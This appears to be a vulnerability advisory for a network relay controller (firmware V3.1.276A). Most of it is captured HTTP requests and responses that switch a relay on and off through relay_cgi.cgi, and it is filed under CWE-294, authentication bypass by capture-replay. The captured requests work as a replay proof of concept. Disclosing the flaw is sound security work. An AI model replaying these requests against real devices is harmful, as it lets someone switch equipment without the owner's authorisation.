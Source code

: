 ```
Turning ON

Request
GET /relay_cgi.cgi?type=0&relay=0&on=1&time=0&pwd=0& HTTP/1.1
Host: 192.168.7.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.7.1/relay_cgi.html
Cookie: session=4463009

Response
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 11

&0&0&0&1&0&

Turning OFF

Request
GET /relay_cgi.cgi?type=0&relay=0&on=0&time=0&pwd=0& HTTP/1.1
Host: 192.168.7.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.7.1/relay_cgi.html
Cookie: session=4463009

Response
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 11

&0&0&0&0&0&
```

## Weakness Vulnerability
- CWE-294 - Authentication Bypass by Capture-replay

## Known Affected Software Configurations
- V3.1.276A (Firmware)

